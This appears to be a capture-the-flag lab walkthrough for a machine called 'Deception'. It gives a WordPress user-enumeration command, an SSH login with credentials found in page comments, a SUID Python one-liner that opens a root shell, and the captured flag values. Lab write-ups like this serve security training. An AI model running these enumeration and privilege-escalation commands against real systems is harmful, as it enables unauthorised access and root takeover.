

# Deception

**IP Address:** 192.168.238.34

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22 | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80 | http | Apache httpd 2.4.29 ((Ubuntu)) |

## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Viewing the source of the homepage you can see multiple pieces of an API key in the comments. If you put these together in order they can be used with a user yash to login via ssh. 

1. Enumerate users via Wordpress user scan. 

Commands
```
wpscan --url http://$ip/wordpress --enumerate u
```


2. Locate the hidden API key by viewing source on the homepage and putting all the keys together in order. 


3. Login using the username yash and the API key (5F4DCC3B5AA765D61D8327DEB882CF99).

Commands
```bash
ssh yash@$ip
5F4DCC3B5AA765D61D8327DEB882CF99
whoami
cat local.txt
```


## Privilege Escalation
### Exploit Details (SUID (Python))
* **Name** - SUID (Python)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A


Commands
```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
cat /root/proof.txt
```


## Loot
```
local.txt
61245e03a8a5ff91b97c08b919e940ee
proof.txt
e28f3f87ccf0360315e6dafe1cdb9335
```